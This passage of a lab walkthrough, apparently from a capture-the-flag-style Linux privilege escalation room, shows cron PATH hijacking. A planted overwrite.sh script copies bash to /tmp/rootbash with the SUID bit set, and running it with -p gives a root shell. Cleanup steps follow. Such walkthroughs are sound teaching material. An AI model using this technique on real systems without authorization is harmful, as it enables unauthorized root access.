 <br/>
<br/>

## 9: Cron Jobs - PATH Environment Variable

<br/>

Viewing the `crontab` contents we notice the `PATH` variable is starts with our user's home directory.

```
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/14150485/172364659-edd70214-5026-4a1b-8420-3863f47e0a84.png)

Follow the instructions on the task to create an `overwrite.sh` file in our `/home/user/` directory - We can easily do this with `nano` using the `nano /home/user/overwrite.sh` command and saving the file with the following contents:

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

What this file will essentially do is copy the `/bin/bash` contents in a new `rootbash` file under the `/tmp` folder and set its permissions to an SUID executable. We now need to ensure the `overwrite.sh` file we created is an exectable as well so that its contents are executed when ran by cron.

```
chmod +x /home/user/overwrite.sh
```

![image](https://user-images.githubusercontent.com/14150485/172365994-72594fe1-4dbe-43e9-ace5-b5a1a6c9b0cc.png)

After cron picks up the task within a minute, running the `rootbash` file with SUID privileges using the `-p` option will spawn a root shell:

```
/tmp/rootbash -p
```

![image](https://user-images.githubusercontent.com/14150485/172368694-6042e738-ab95-4d48-a587-cffd74e7e0f0.png)

<br/>

Remember to remove the modified code, remove the `/tmp/rootbash` executable and `exit` out of the elevated shell before continuing as you will create this file again later in the room!

```
rm /home/user/overwrite.sh
rm /tmp/rootbash
exit
```

![image](https://user-images.githubusercontent.com/14150485/172369341-1c156902-9890-41fd-9c1b-b2b5bf813028.png)
